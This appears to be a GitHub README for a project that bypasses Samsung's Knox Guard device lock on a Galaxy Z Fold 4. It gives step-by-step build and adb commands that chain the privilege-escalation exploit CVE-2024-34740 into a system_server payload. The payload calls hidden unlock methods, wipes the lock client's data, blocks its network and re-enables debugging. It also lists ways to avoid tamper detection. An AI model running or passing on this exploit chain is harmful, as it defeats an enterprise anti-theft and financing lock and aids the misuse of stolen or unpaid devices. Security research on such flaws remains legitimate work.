

<div align="center">

<br>


<br>
<br>


</div>

<br>
<br>

## Overview

Knox Guard is Samsung's enterprise device lock. It survives factory resets because its state is stored in TrustZone hardware. Samsung will not remove it for secondhand buyers. Every commercial tool is Windows-only or sold out.

This project unlocks a KG-locked Galaxy Z Fold 4 entirely from macOS, for free.

<br>
<br>

## The Chain

<br>


<br>
<br>

## Status

> [!NOTE]
> **v12-PERMANENT** — The unlock fires automatically on every boot via `BOOT_COMPLETED` using a 4-phase approach:
>
> 1. **Wipe** kgclient cached data (File.delete — does not trigger error 3001)
> 2. **Unlock** via KnoxGuardSeService reflection (proven 7-call sequence)
> 3. **Firewall** block kgclient network via NetworkManagementService
> 4. **Watchers** — FileObserver on kgclient data + ContentObserver on ADB_ENABLED
>
> The phone is usable. kgclient may re-lock after ~37 minutes via in-memory state. Rebooting restores access instantly. ADB stays alive throughout via ContentObserver.

<br>
<br>

## Setup

<details>
<summary>&nbsp;&nbsp;<b>1 &nbsp; Factory reset and provision ADB</b></summary>

<br>

Start the APK server on your Mac, then factory reset the phone.

```bash
python3 -m http.server 8888 --directory ~/Downloads/serve_apk
```

After reset, connect to WiFi during setup. Tap the screen 6 times to open the enterprise QR scanner. Scan `provision_qr.png`. When the USB debugging dialog appears, check **Always allow** and tap Allow.

```bash
adb devices
# RFCW2006DLA    device
```

<br>

</details>

<details>
<summary>&nbsp;&nbsp;<b>2 &nbsp; Build and run the exploit</b></summary>

<br>

```bash
cd ~/Downloads/AbxOverflow
export JAVA_HOME=/opt/homebrew/opt/openjdk@17

# Build the payload
./gradlew :droppedapk:assembleRelease
cp droppedapk/build/outputs/apk/release/droppedapk-release.apk \
   app/src/main/assets/

# Build the exploit
./gradlew :app:assembleDebug

# Stage 1 — inject + crash
adb install -r app/build/outputs/apk/debug/app-debug.apk
adb shell am start --activity-clear-task \
    -n com.example.abxoverflow/.MainActivity --ei stage 1
```

Wait for reboot. Then:

```bash
# Stage 2 — patch packages.xml + install payload
adb install -r app/build/outputs/apk/debug/app-debug.apk
adb shell am start --activity-clear-task \
    -n com.example.abxoverflow/.MainActivity --ei stage 2
```

<br>

</details>

<details>
<summary>&nbsp;&nbsp;<b>3 &nbsp; Verify</b></summary>

<br>

After the second reboot:

```bash
$ adb shell pm list packages | grep droppedapk
package:com.example.abxoverflow.droppedapk

$ adb shell dumpsys package com.example.abxoverflow.droppedapk | grep userId
    userId=1000
```

Launch the unlock:

```bash
adb shell am start --activity-clear-task \
    -n com.example.abxoverflow.droppedapk/.MainActivity \
    --ei action 36
```

Reboot. The 4-phase unlock runs automatically.

<br>

</details>

<br>
<br>

## What the unlock does

On `BOOT_COMPLETED`, the payload executes inside `system_server` as UID 1000:

<br>

### Phase 0: Wipe kgclient data

Delete all cached lock commands from `/data/data/com.samsung.android.kgclient/` via `File.delete()`. Direct file deletion does NOT trigger error 3001 (only `pm clear` does). Without cached lock commands, kgclient can't replay the lock on boot.

### Phase 1: Unlock sequence

| Call | Effect |
|---|---|
| `setRemoteLockToLockscreen(false)` | Clear KG overlay |
| `unlockCompleted()` | Mark unlock done |
| `unbindFromLockScreen()` | Unbind from keyguard |
| `tz_unlockScreen(0)` | RPMB: Locked(3) → Active(2) |
| `tz_resetRPMB(0)` | Reset RPMB state |
| Unregister kgService receivers | Prevent CONNECTIVITY_CHANGE re-lock |
| `ADB_ENABLED = 1` | Re-enable USB debugging |
| `knox.kg.state = "Completed"` | Set system property |

### Phase 2: Firewall

Block kgclient's network via `NetworkManagementService` firewall (STANDBY chain DENY rule) and `NetworkPolicyManager` (REJECT_METERED_BACKGROUND).

### Phase 3: Watchers

- **FileObserver** on all kgclient data subdirectories — instantly deletes any new files kgclient writes
- **ContentObserver** on `ADB_ENABLED` — instantly re-enables ADB if anything disables it

Zero CPU in steady state (event-driven, not polling).

<br>
<br>

## TA state machine

<br>



<br>

The device starts at **Locked** (red). We move it to **Active** (blue) via `tz_unlockScreen(0)`.

kgclient can push it back to Locked if it contacts Samsung's servers or replays cached in-memory state — that's the remaining problem.

<br>
<br>

## Do not

> [!CAUTION]
> - **`adb install -r` on droppedapk** — corrupts UID mapping. Bake changes into source before exploit.
> - **`pm disable-user` on kgclient** — triggers error 8133 (abnormal detection).
> - **`pm clear` on kgclient** — triggers error 3001 (data cleared detection).
> - **Update firmware** — may patch the exploit.
> - **Sign into Samsung account** — gives Samsung a path to re-lock.

<br>
<br>

## Project structure

<br>

| Directory | Contents |
|---|---|
| `src/droppedapk/` | Payload — runs as UID 1000 in system_server (v12-PERMANENT) |
| `src/exploit/` | CVE-2024-34740 stage controller |
| `src/device-owner/` | QR provisioning APK |
| `apk/` | Pre-built binaries |
| `assets/` | SVG visuals, QR code |
| `research/` | Agent research outputs (KG internals, error 8133, kgclient cache) |
| `docs/` | Full documentation, handoff, session log |

<br>
<br>

## Remaining work

<br>

**kgclient in-memory re-lock** — The 4-phase approach handles on-disk state (file wipes, firewall, watchers) but kgclient retains the lock policy in memory. After ~37 minutes it calls lockScreen() using this in-memory state, bypassing all file-level defenses. Options under investigation:

- Force-stop kgclient after wiping data (risk: may trigger integrity check)
- Hook the lockScreen() call path at the KnoxGuardSeService level via reflection
- Find and null out the in-memory lock policy object
- Achieve TA state Completed(4) for true permanent unlock

ADB stays alive throughout re-locks via ContentObserver, allowing automatic re-unlock via polling script.

<br>
<br>

## Lessons

<br>

- **KG state lives in TrustZone RPMB**, not in files or settings. To change it, you must call `KnoxGuardNative` JNI methods from inside `system_server`.

- **The class isn't on the boot classpath.** Load it via `kgService.getClass().getClassLoader()`, not `Class.forName()`.

- **Active(2) is not the same as Completed(4).** kgclient can still receive a server command and transition back to Locked(3).

- **Direct File.delete() does NOT trigger error 3001.** Only `pm clear` fires the PACKAGE_DATA_CLEARED broadcast that kgclient detects.

- **kgclient has in-memory state beyond files.** Wiping data dirs helps on boot but doesn't clear state already loaded into the running process.

- **CVE-2024-34740 is reliable and repeatable** on Samsung Android 13 with July 2023 SPL.

- **Never reinstall the droppedapk.** The UID corruption from `adb install -r` was the single biggest setback in this project.

<br>
<br>

---

<br>

**Sources** — [AbxOverflow (CVE-2024-34740)](https://github.com/michalbednarski/AbxOverflow) · [Samsung Framework (decompiled)](https://github.com/488315/samsung_framework) · [Knox Guard Docs](https://docs.samsungknox.com/admin/knox-guard/)
